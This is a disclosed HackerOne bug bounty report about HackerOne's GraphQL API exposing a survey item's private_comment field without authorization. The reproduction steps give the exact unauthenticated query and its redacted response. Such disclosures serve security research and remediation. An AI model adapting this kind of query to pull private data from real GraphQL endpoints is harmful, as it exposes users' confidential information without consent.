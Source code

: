 # Team object in GraphQL disclosed private_comment

## Report Details
- **Report ID**: 978143
- **URL**: https://hackerone.com/reports/978143
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-09-10T04:48:00.526Z
- **Disclosed**: 2020-09-10T19:05:03.223Z

## Reporter
- **Username**: haxta4ok00
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
**Summary:**
Hi Team, Some private(I think) part of GraphQL reveals to us

### Steps To Reproduce
Without authorization

1. https://hackerone.com/graphql 

POST:

`{"query":"query { node(id: \\"gid://hackerone/SurveyRatingItem/█████\\") { ... on SurveyRatingItem{_id,pentester{_id},team{_id},key,private_comment,public_comment,rating,recipient{username,email},subject{... on Report{_id}},survey_rating{_id,team{_id},state,respondent{_id,username,email,pentests{nodes{_id}}}}}}}","variables":{}}`

`{"data":{"node":{"_id":"████████","pentester":null,"team":null,"key":"scope","private_comment":"████","public_comment":null,"rating":1,"recipient":null,"subject":null,"survey_rating":{"_id":"█████","team":null,"state":"completed","respondent":{"_id":"████","username":"███","email":null,"pentests":{"nodes":[]}}}}}}`

As we can see, the `key` field takes the value `scope`, we don't see in which program this happens, but we can see the comments of the participant, and as we can see, it has the status private

PS. Yes, we do not see some data, but in the future they may be disclosed in the comments (I think so)

## Impact

disclosed private_comment

## Attachments
No attachments
